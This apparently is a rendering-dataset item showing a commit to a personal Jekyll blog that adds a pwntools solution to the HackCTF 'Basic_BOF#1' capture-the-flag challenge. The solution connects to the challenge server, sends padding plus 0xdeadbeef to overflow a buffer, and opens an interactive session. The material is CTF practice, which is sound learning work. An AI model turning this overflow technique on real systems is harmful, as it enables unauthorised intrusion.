

Before and after one commit to HyD3c/HyD3c.github.io, a Jekyll site: the page built from _ctfs/2020-06-29-HackCTF-Basic_BOF#1.md, in a window 1280 px wide. Shown: the top 393 px of the page, without its empty margins (238-1036 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2020-06-29-HackCTF-Basic_BOF#1.md

````diff
--- a/_ctfs/2020-06-29-HackCTF-Basic_BOF#1.md
+++ b/_ctfs/2020-06-29-HackCTF-Basic_BOF#1.md
@@ -5,4 +5,11 @@ ctf: HackCTF
 tag: [pwnable]
 layout: post
 ---
-aaaa
+```
+from pwn import *
+
+p = remote("ctf.j0n9hyun.xyz", 3000)
+
+p.sendline("0"*0x28+p32(0xdeadbeef))
+p.interactive()
+```
````
